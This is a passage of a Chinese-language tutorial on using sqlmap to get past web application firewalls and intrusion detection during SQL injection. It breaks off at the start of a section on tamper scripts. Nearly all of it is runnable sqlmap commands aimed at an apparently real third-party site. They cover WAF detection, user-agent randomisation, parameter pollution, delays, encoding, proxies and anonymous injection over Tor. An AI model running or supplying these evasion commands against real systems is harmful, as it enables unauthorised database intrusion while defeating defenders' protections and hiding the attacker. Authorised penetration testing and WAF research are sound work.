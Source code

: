 ## 使用sqlmap 绕过防火墙进行注入测试

http://www.91ri.org/6775.html
## 0x00 前言
   现在的网络环境往往是WAF/IPS/IDS保护着Web 服务器等等，这种保护措施往往会过滤挡住我们的SQL注入查询链接，甚至封锁我们的主机IP，所以这个时候，我们就要考虑怎样进行绕过，达到注入的目标。因为现在`WAF/IPS/IDS`都把sqlmap 列入黑名单
   
   但是本文基于`sqlmap` 进行绕过注入测试，介绍至今仍然实用有效的技巧，以下策略在特定的环境能够成功绕过，具体是否绕过，请仔细查看输出的信息。

-------
## 0x01 确认WAF
     首先我们判断该`Web` 服务器是否被`WAF/IPS/IDS`保护着。这点很容易实现，
     因为我们在漏扫或者使用专门工具来检测是否有`WAF`，这个检测，在`nmap` 的`NSE`，或者`WVS`的策略或者`APPSCAN`的策略中都有，我们可以利用这些来判断
     在此我们，也介绍使用sqlmap 进行检测是否有WAF/IPS/IDS

`root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10 --identify-waf#首选`

`root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10  f--check-waf#备选`

## 0x02 使用参数进行绕过
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 #使用任意浏览器进行绕过，尤其是在WAF配置不当的时候

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hpp -v 3#使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --delay=3.5 --time-sec=60 #使用长的延时来避免触发WAF的机制，这方式比较耗时

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --proxy=211.211.211.211:8080 --proxy-cred=211:985#使用代理进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --ignore-proxy#禁止使用系统的代理，直接连接进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --flush-session#清空会话，重构注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hex#或者使用参数 --no-cast ，进行字符码转换

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --mobile #对移动端的服务器进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tor # 匿名注入


-------

## 0x03 使用脚本介绍
1 使用格式：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tamper=A.py,B.py#脚本A，脚本B 
